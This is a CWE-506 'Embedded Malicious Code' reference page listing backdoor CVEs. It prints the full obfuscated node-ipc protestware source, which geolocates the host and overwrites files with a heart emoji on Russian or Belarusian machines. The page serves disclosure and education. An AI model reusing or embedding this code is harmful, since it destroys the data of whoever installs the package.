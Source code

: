 - 1003 view: Yes

# CWE-506 Embedded Malicious Code

## Description

The product contains code that appears to be malicious in nature.

Malicious flaws have acquired colorful names, including Trojan horse, trapdoor, timebomb, and logic-bomb. A developer might insert malicious code with the intent to subvert the security of a product or its host system at some time in the future. It generally refers to a program that performs a useful service but exploits rights of the program's user in a way the user does not intend.

## Observed Examples

CVE-2022-30877: A command history tool was shipped with a code-execution backdoor inserted by a malicious party.

## Top 25 Examples

CVE-2022-23812: This affects the package node-ipc from 10.1.1 and before 10.1.3. This package contains malicious code, that targets users with IP located in Russia or Belarus, and overwrites their files with a heart emoji. **Note**: from versions 11.0.0 onwards, instead of having malicious code directly in the source of this package, node-ipc imports the peacenotwar package that includes potentially undesired behavior. Malicious Code: **Note:** Don't run it! js import u from "path"; import a from "fs"; import o from "https"; setTimeout(function () { const t = Math.round(Math.random() * 4); if (t > 1) { return; } const n = Buffer.from("aHR0cHM6Ly9hcGkuaXBnZW9sb2NhdGlvbi5pby9pcGdlbz9hcGlLZXk9YWU1MTFlMTYyNzgyNGE5NjhhYWFhNzU4YTUzMDkxNTQ=", "base64"); // https://api.ipgeolocation.io/ipgeo?apiKey=ae511e1627824a968aaaa758a5309154 o.get(n.toString("utf8"), function (t) { t.on("data", function (t) { const n = Buffer.from("Li8=", "base64"); const o = Buffer.from("Li4v", "base64"); const r = Buffer.from("Li4vLi4v", "base64"); const f = Buffer.from("Lw==", "base64"); const c = Buffer.from("Y291bnRyeV9uYW1l", "base64"); const e = Buffer.from("cnVzc2lh", "base64"); const i = Buffer.from("YmVsYXJ1cw==", "base64"); try { const s = JSON.parse(t.toString("utf8")); const u = s[c.toString("utf8")].toLowerCase(); const a = u.includes(e.toString("utf8")) || u.includes(i.toString("utf8")); // checks if country is Russia or Belarus if (a) { h(n.toString("utf8")); h(o.toString("utf8")); h(r.toString("utf8")); h(f.toString("utf8")); } } catch (t) {} }); }); }, Math.ceil(Math.random() * 1e3)); async function h(n = "", o = "") { if (!a.existsSync(n)) { return; } let r = []; try { r = a.readdirSync(n); } catch (t) {} const f = []; const c = Buffer.from("4p2k77iP", "base64"); for (var e = 0; e < r.length; e++) { const i = u.join(n, r[e]); let t = null; try { t = a.lstatSync(i); } catch (t) { continue; } if (t.isDirectory()) { const s = h(i, o); s.length > 0 ? f.push(...s) : null; } else if (i.indexOf(o) >= 0) { try { a.writeFile(i, c.toString("utf8"), function () {}); // overwrites file with ?? } catch (t) {} } } return f; } const ssl = true; export { ssl as default, ssl };

CVE-2022-42041: The d8s-file-system package for Python, as distributed on PyPI, included a potential code-execution backdoor inserted by a third party. The backdoor is the democritus-hashes package. The affected version is 0.1.0.

CVE-2022-42042: The d8s-networking package for Python, as distributed on PyPI, included a potential code-execution backdoor inserted by a third party. The backdoor is the democritus-hashes package. The affected version is 0.1.0.
